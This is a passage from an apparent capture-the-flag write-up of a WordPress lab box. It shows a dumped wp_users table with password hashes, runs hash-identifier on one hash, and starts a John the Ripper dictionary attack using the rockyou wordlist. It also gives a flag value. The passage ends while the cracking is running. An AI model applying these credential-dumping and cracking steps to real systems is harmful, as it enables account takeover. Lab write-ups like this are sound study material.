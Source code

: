 >**Security Issues**
>
>> - [Sensitive Data Exposure](https://owasp.org/www-project-top-ten/2017/A3_2017-Sensitive_Data_Exposure)
>> - [Security Misconfiguration](https://owasp.org/www-project-top-ten/2017/)
# Finding Flag4
  
  - `flag4.txt`: flag4{715dea6c055b9fe3337544932f2941ce}


      **Method Used**
      -  Further enumeration of the wordpress database we were able to get some usernames and hashes from the wp_users table.
```
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
| ID | user_login | user_pass                          | user_nicename | user_email        | user_url | user_registered     | user_activation_key | user_status | display_name   |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
|  1 | michael    | $P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0 | michael       | michael@raven.org |          | 2018-08-12 22:49:12 |                     |           0 | michael        |
|  2 | steven     | $P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/ | steven        | steven@raven.org  |          | 2018-08-12 23:31:16 |                     |           0 | Steven Seagull |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+--------------
```
- Already having access to micheals account we focued on stevens credentials.     

 - `steven:$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/`
 - Figuring out the hash type may help in our attempts to crack it I will run it in hash-identifier.
 ```
 root@Kali:~# hash-identifier 
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #                                                               
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #                                                               
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #                                                               
   #                                                             By Zion3R #                                                               
   #                                                    www.Blackploit.com #                                                               
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: $P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/

Possible Hashs:
[+] MD5(Wordpress)
--------------------------------------------------
```
- The hash appears to be a `MD5(Wordpress)`
- john the ripper should be able to atuomaticly dtermine the hashtype without setting the format so we will run it agaisnt the rockyou wordlist using dictoanry attack with the hopes it has appeared in a previous breach.
```
root@Kali:~# john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 512/512 AVX512BW 16x3])
```